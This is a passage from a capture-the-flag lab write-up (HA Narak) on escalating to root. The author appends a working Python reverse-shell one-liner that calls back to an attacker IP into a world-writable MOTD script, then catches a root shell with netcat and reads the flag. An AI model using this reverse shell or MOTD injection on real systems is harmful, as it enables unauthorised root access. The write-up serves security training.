 # Root flag

## Privilege escalation

Running `linpeas.sh` revealed the existence of following files owned by `root`, and world-writable:

~~~
/etc/update-motd.d/00-header
/etc/update-motd.d/10-help-text
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/80-esm
/etc/update-motd.d/80-livepatch
~~~

The MOTD (Message of the Day) service is used to display a message when a user connects. Let's add a python reverse shell command to the header file as follows:

~~~
inferno@ubuntu:/etc/update-motd.d$ cat >> 00-header << EOF
> /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.222.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
> EOF
~~~

Start a listener (`rlwrap nc -nlvp 4444`) on your Kali host, disconnect from the SSH session, and reconnect, to force the motd service to call the script. We now have a privileged shell:

~~~
kali@kali:/data/HA_Narak/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.155] 36146
bash: cannot set terminal process group (711): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Let's read the root flag:

~~~
root@ubuntu:/# cd /root
cd /root
root@ubuntu:/root# ls -la
ls -la
total 24
drwx------  3 root root 4096 Sep 21 11:35 .
drwxr-xr-x 22 root root 4096 Sep 21 09:56 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Sep 21 10:07 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 4044 Sep 21 11:35 root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
~~~